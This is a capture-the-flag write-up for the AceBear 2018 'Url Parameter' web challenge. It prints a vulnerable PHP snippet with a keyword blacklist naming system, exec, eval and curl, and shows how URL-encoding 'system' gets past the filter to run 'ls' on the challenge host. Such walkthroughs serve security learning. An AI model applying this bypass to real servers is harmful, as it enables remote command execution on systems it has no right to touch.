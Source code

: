 ```yaml
---
layout: post
title: Url Parameter
category: AceBear 2018
---
```




Hello guys, just wake up after 48h of fighting, i will try to make write up for all web task as its all cleaned Here :D

So lets start with this easy task (at least look easy for me  :p) 

First look at robots.txt give us some hint : 
`
http://35.196.45.11:8080/robots.txt
`

give us :

```
# you know de wae ma queen
User-Agent: *
Disallow: /?debug
```

then check 

```
http://35.196.45.11:8080/?debug
```
will show us simple php code , we need to send something like `http://35.196.45.11:8080/system=id` where system is the $key and id is the $val

```
$blacklist = "assert|system|passthru|exec|assert|read|open|eval|`|_|file|dir|\.\.|\/\/|curl|ftp|glob";

if(count($_GET) > 0){
	if(preg_match("/$blacklist/i",$_SERVER["REQUEST_URI"])) die("No no no hackers!!");
	list($key, $val) = each($_GET);
	$key($val);
}
```

almost here all function that can be used filtred (open & read & _ ) will filter also many other function

so here make me stuck here

but my friend mention something that maked this almost done 'encode'
As here the filter work on ```$_SERVER["REQUEST_URI"]``` and the in final step we have ```$_GET``` so if we encode our data it end decoded in   ```each($_GET); ``` but not in ```$_SERVER["REQUEST_URI"]```

So the plan is clear here, encode our data to bypass filter and run any function :D

![image](https://user-images.githubusercontent.com/7364615/35493904-ffb66d3c-04b6-11e8-8c82-25acb5c3c60b.png)

lets try it now :

`http://35.196.45.11:8080/%73%79%73%74%65%6d=ls`

![image](https://user-images.githubusercontent.com/7364615/35493920-219f6c1e-04b7-11e8-8660-9d4e6a53dfcd.png)

Then final step read flag file :D 

![image](https://user-images.githubusercontent.com/7364615/35493934-4ac2221c-04b7-11e8-88c0-5b0ca3caf17b.png)

```
AceBear{I_did_something_stupid_with_url}
```

Thanks guys , will try to make write up (BearShare & BearShare 2 & Tet shopping) ;)

